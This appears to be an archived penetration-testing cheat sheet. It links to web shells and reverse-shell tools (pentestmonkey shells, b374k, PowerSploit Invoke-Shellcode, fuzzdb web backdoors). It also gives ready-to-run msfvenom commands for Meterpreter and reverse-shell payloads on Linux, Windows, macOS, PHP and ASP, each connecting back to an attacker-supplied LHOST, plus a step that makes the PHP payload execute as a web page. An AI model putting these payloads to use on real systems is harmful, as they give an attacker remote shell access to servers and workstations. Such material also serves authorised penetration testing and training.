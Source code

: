 *   php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

*   Perl Reverse Shell  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://web.archive.org/web/20171113221652/http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

*   PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](http://web.archive.org/web/20171113221652/https://github.com/b374k/b374k)

*   Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1](http://web.archive.org/web/20171113221652/https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1)

*   Web Backdoors from Fuzzdb [https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors](http://web.archive.org/web/20171113221652/https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors)

*   Creating Meterpreter Shells with MSFVenom - [http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/](http://web.archive.org/web/20171113221652/http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/)

    _Linux_

    `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

    _Windows_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

    _Mac_

    `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

    **Web Payloads**

    _PHP_

    `msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

    OR

    `msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php`

    Then we need to add the <?php at the first line of the file so that it will execute as a PHP webpage:

    `cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php`

    _ASP_

    `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp`
